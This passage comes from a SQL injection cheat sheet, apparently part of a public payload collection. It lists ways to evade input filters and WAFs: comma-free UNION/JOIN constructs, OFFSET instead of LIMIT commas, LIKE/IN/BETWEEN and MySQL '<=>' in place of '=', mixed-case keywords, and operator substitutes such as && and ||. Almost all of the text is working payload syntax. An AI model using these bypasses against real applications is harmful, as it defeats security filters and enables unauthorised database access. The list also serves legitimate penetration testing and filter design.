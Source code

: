 ### No Comma Allowed

Bypass using `OFFSET`, `FROM` and `JOIN`.

| Forbidden           | Bypass |
| ------------------- | ------ |
| `LIMIT 0,1`         | `LIMIT 1 OFFSET 0` |
| `SUBSTR('SQL',1,1)` | `SUBSTR('SQL' FROM 1 FOR 1)` |
| `SELECT 1,2,3,4`    | `UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d` |

### No Equal Allowed

Bypass using LIKE/NOT IN/IN/BETWEEN

| Bypass    | SQL Example |
| --------- | ------------------------------------------ |
| `LIKE`    | `SUBSTRING(VERSION(),1,1)LIKE(5)`          |
| `NOT IN`  | `SUBSTRING(VERSION(),1,1)NOT IN(4,3)`      |
| `IN`      | `SUBSTRING(VERSION(),1,1)IN(4,3)`          |
| `BETWEEN` | `SUBSTRING(VERSION(),1,1) BETWEEN 3 AND 4` |

#### For MySQL

Bypass equal via <=> (NULL Safe equality) (NOTE: Work in MySQL Only)

| Bypass | SQL Example   | NOTES             |
| ------ | ------------- | -------------------
| `<=>`  | `OR 1 <=> 1`  | Bypass filtered `=`

### Case Modification

Bypass using uppercase/lowercase.

| Bypass    | Technique  |
| --------- | ---------- |
| `AND`     | Uppercase  |
| `and`     | Lowercase  |
| `aNd`     | Mixed case |

Bypass using keywords case insensitive or an equivalent operator.

| Forbidden | Bypass                      |
| --------- | --------------------------- |
| `AND`     | `&&`                        |
| `OR`      | `\|\|`                      |
| `=`       | `LIKE`, `REGEXP`, `BETWEEN` |
| `>`       | `NOT BETWEEN 0 AND X`       |
| `WHERE`   | `HAVING`                    |
